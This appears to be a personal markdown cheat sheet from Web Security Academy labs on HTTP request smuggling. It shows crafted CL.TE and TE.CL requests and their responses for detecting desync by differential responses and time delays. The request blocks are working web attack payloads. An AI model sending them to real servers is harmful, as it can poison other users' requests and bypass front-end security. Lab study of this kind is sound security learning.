 # Content
- [HTTP request smuggling Types](#http-request-smuggling-types)
  - [CL.TE](#clte)
      - [Finding CL.TE](#finding-clte)
          - [using differential responses](#using-differential-responses)
          - [using time delay](#using-time-delay)

## HTTP request smuggling Types 
### CL.TE
the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding
#### Finding CL.TE
##### using differential responses
- request
```http
POST / HTTP/1.1
Host: 0a6500df03127c4d814e75e300a100a0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Transfer-Encoding: chunked

0

G

```
- response
```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```
**OR**
- request
```http
POST / HTTP/1.1
Host: 0a6500df03127c4d814e75e300a100a0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Content-Length: 15


```
- response
```http
HTTP/1.1 404 Not Found
Content-Type: application/json; charset=utf-8
Set-Cookie: session=xoMJbTEes2ryW1PlMaosC136QVh3RPWo; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 11

"Not Found"
```



##### using time delay
- request
```http
POST / HTTP/1.1
Host: 0a6500df03127c4d814e75e300a100a0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7
A
xxx

```
- response
```http
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 125

<html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Communication timed out</h1></body></html>
```

### TE.CL
the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header
#### Finding TE.CL
##### using differential responses
- request
```http
POST / HTTP/1.1
Host: 0a3200cf04cedd8280132134009f00db.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

28
GPOST / HTTP/1.1
Content-Length: 15


0


```
- response
```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```
##### using time delay
- request
```http
POST / HTTP/1.1
Host: 0a1400a9045d90718087850f0092005f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
- response
```http
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 125

<html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Communication timed out</h1></body></html>
```
